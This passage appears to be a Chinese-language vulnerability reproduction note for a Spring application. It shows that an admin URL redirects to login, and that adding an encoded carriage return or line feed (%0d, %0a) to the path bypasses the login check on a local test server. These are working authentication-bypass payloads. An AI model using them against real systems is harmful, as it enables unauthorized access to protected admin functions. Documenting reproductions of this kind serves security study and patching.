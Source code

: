 ![image-20230519092639570](./img/spring/image-20230519092639570.png)

#### 漏洞复现

访问`http://127.0.0.1:8080/admin/1`会因为没有登录而跳转到 login 界面

![image-20230519091307641](./img/spring/image-20230519091307641.png)

访问如下即可绕过

```
http://127.0.0.1:8080/admin/1%0d
http://127.0.0.1:8080/admin/1%0a
```

![image-20230519091204228](./img/spring/image-20230519091204228.png)
